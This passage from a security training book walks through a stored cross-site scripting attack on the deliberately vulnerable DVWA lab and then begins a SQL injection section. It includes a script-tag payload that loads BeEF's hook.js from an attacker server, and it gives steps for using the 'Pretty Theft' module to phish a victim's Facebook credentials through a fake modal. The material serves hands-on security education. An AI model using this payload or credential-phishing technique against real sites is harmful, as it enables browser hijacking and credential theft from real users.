 G> Fire up burp.
G>
G> Back in the DVWA send your request by clicking on the Sign Guest-book button.
G>
G> Switch back to burp -> Proxy tab and the request should be waiting for you. You now need to replace the text you used in the Message field `mtxMessage` with `<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>` and forward the request.
G>
G> You can disable FoxyProxy now too.
G>
G> Now on your victims machine, the victim can log into DVWA and browse to the same "XSS stored" page. Now as the attacker, you will now notice that the BeEF Web UI shows a node with the victims IP address. This means BeEF has the victims browser hooked. The victims browser is now a zombie, continuously polling the BeEF communications server for commands to execute on its behalf.
G>
G> If you open the victims browser developer tools, you will be able to inspect the communications and the JavaScript within the hook.js file.
G>
G> Back in the BeEF web UI you can explore the modules that you can launch against the victims browser. You can view the types of attacks you can carry out on the [BeEF projects wiki](https://github.com/beefproject/beef/wiki/BeEF-modules).
G>
G> If you select the victims node and click on the Commands tab in the BeEF web UI, then in the Module Tree under Social Engineering select the "Pretty Theft" node. There are some options to configure, but even selecting the default of Facebook if you know your target is already an avid FB user should work fine. You would of course know this if you have done due diligence in the reconnaissance stage.
G>
G> Click on the Execute button and on the next request -> response from the hook.js, the victims browser should pop a "Facebook Session Timed Out" modal. To get rid of this modal, the victim must enter their credentials and Log-in. There is no cancel or 'x' button. Once the victim has sent their credentials, they will be visible in the Command results of the BeEF web UI.  

#### Cross-Site Request Forgery (CSRF)

_Todo_

#### SQLi {#web-applications-identify-risks-sqli}

![](images/HandsOnHack.png)

 One of the simplest and quickest vulnerabilities to fix is SQL Injection, yet it is still top of the hit lists. I am going to hammer this home some more.

I> ## Synopsis
I>
I> I have used the Dam Vulnerable Web Application (DVWA) from the OWASP Broken Web Applications [VM](http://sourceforge.net/projects/owaspbwa/files/) for this exercise. You can load this VM in a VMware product or add the virtual machine disk to a new VM in VirtualBox. It's an Ubuntu 64 bit image. Once you have your VM ready to boot, use the Host-only Adapter so it's sand-boxed from the rest of your network. You really would not want an attacker gaining access to this VM as it is purposely vulnerable and attacks could easily be launched from it.
I>
I> Start the machine.
